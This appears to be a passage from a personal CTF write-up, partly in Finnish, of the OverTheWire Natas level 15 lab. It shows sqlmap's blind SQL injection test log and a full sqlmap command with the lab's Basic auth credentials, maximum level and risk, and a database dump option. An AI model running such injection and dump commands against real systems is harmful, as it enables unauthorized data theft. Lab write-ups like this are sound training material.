 ```
[10:42:09] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:42:14] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:42:17] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[10:42:23] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
[10:42:26] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[10:42:30] [INFO] testing 'Oracle OR boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[10:42:35] [INFO] testing 'SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)'
[10:42:39] [INFO] testing 'SQLite OR boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)'
[10:42:42] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:42:42] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET)'
....

[10:42:48] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[10:42:48] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause'
[10:42:48] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
[10:42:48] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (GENERATE_SERIES)'
[10:42:48] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause'
[10:42:48] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause (original value)'
[10:42:49] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause'
[10:42:49] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[10:42:49] [INFO] testing 'Microsoft Access boolean-based blind - ORDER BY, GROUP BY clause'
[10:42:49] [INFO] testing 'Microsoft Access boolean-based blind - ORDER BY, GROUP BY clause (original value)'
.....
[10:51:04] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Stacked queries'
[10:51:05] [INFO] testing 'Oracle boolean-based blind - Stacked queries'
[10:51:06] [INFO] testing 'Microsoft Access boolean-based blind - Stacked queries'
[10:51:07] [INFO] testing 'SAP MaxDB boolean-based blind - Stacked queries'
[10:51:10] [WARNING] parameter 'Host' does not seem to be injectable
[10:51:10] [CRITICAL] all tested parameters do not appear to be injectable. Rerun without providing the option '--technique'. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[10:51:10] [WARNING] your sqlmap version is outdated

[*] ending @ 10:51:10 /2025-05-18/

```

Tämäki on pitkä tulos et menee jopa muutama min, sekä vaikuttaa level ja riskiinsä
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php" \
  --auth-type Basic \
  --auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
  --batch \
  --level=5 --risk=3 --dump
```
